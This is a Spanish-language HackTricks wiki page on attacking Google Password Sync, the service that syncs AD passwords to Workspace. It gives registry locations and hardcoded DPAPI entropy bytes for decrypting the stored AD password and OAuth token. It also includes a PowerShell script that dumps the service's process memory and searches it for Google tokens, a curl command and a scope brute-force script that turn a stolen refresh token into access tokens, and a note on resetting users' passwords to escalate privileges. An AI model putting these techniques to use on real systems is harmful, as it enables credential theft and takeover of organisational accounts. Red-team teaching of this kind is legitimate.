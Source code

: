 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Información Básica

Este es el binario y servicio que Google ofrece para **mantener sincronizadas las contraseñas de los usuarios entre el AD** y Workspace. Cada vez que un usuario cambia su contraseña en el AD, se establece en Google.

Se instala en `C:\Program Files\Google\Password Sync` donde puedes encontrar el binario `PasswordSync.exe` para configurarlo y `password_sync_service.exe` (el servicio que seguirá ejecutándose).

### GPS - Configuración

Para configurar este binario (y servicio), es necesario **darle acceso a un principal de Super Admin en Workspace**:

* Iniciar sesión a través de **OAuth** con Google y luego **almacenará un token en el registro (encriptado)**
* Solo disponible en Controladores de Dominio con GUI
* Proporcionar algunas **credenciales de Cuenta de Servicio de GCP** (archivo json) con permisos para **gestionar los usuarios de Workspace**
* Muy mala idea ya que esas credenciales nunca expiran y podrían ser mal utilizadas
* Muy mala idea dar acceso a una SA sobre workspace ya que la SA podría ser comprometida en GCP y sería posible pivotar a Workspace
* Google lo requiere para dominios controlados sin GUI
* Estas credenciales también se almacenan en el registro

En cuanto al AD, es posible indicarle que use el **contexto de aplicaciones actual, anónimo o algunas credenciales específicas**. Si se selecciona la opción de credenciales, el **nombre de usuario** se almacena dentro de un archivo en el **disco** y la **contraseña** está **encriptada** y almacenada en el **registro**.

### GPS - Extracción de contraseña y token del disco

{% hint style="success" %}
Ten en cuenta que [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) es capaz de detectar **GPS**, obtener información sobre la configuración y **incluso desencriptar la contraseña y el token**.
{% endhint %}

En el archivo **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** es posible encontrar parte de la configuración como el **`baseDN`** del AD configurado y el **`nombre de usuario`** cuyas credenciales se están utilizando.

En el registro **`HKLM\Software\Google\Google Apps Password Sync`** es posible encontrar el **token de actualización encriptado** y la **contraseña encriptada** para el usuario de AD (si la hay). Además, si en lugar de un token, se utilizan algunas **credenciales de SA**, también es posible encontrar esas encriptadas en esa dirección del registro. Los **valores** dentro de este registro son solo **accesibles** por **Administradores**.

La **contraseña encriptada** (si la hay) está dentro de la clave **`ADPassword`** y está encriptada usando la API **`CryptProtectData`**. Para desencriptarla, necesitas ser el mismo usuario que configuró la sincronización de contraseñas y usar esta **entropía** al usar **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

El token encriptado (si lo hay) está dentro de la clave **`AuthToken`** y está encriptado usando la API **`CryptProtectData`**. Para desencriptarlo, necesitas ser el mismo usuario que configuró la sincronización de contraseñas y usar esta **entropía** al usar **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Además, también está codificado usando base32hex con el diccionario **`0123456789abcdefghijklmnopqrstv`**.

Los valores de entropía se encontraron utilizando la herramienta. Se configuró para monitorear las llamadas a **`CryptUnprotectData`** y **`CryptProtectData`** y luego se utilizó la herramienta para lanzar y monitorear `PasswordSync.exe`, que desencriptará la contraseña y el token de autenticación configurados al principio y la herramienta **mostrará los valores de la entropía utilizada** en ambos casos:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Ten en cuenta que también es posible ver los valores **desencriptados** en la entrada o salida de las llamadas a estas APIs también (en caso de que en algún momento Winpeas deje de funcionar).

En caso de que la sincronización de contraseñas se haya **configurado con credenciales de SA**, también se almacenará en claves dentro del registro **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Extracción de tokens de la memoria

Al igual que con GCPW, es posible extraer la memoria del proceso de `PasswordSync.exe` y los procesos de `password_sync_service.exe` y podrás encontrar tokens de actualización y acceso (si ya han sido generados).\
Supongo que también podrías encontrar las credenciales configuradas del AD.

<details>

<summary>Extraer <code>PasswordSync.exe</code> y los procesos <code>password_sync_service.exe</code> y buscar tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Generando tokens de acceso a partir de tokens de actualización

Usando el token de actualización, es posible generar tokens de acceso utilizando este y el ID de cliente y secreto de cliente especificados en el siguiente comando:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
Tenga en cuenta que incluso teniendo un token de actualización, no es posible solicitar ningún alcance para el token de acceso, ya que solo puede solicitar los **alcances admitidos por la aplicación donde está generando el token de acceso**.

Además, el token de actualización no es válido en todas las aplicaciones.
{% endhint %}

Por defecto, GPS no tendrá acceso como el usuario a todos los posibles alcances de OAuth, por lo que utilizando el siguiente script podemos encontrar los alcances que se pueden usar con el `refresh_token` para generar un `access_token`:

<details>

<summary>Script Bash para fuerza bruta de alcances</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Y este es el resultado que obtuve en el momento de la escritura:
```
https://www.googleapis.com/auth/admin.directory.user
```
Which is the same one you get if you don't indicate any scope.

{% hint style="danger" %}
Con este alcance podrías **modificar la contraseña de un usuario existente para escalar privilegios**.
{% endhint %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
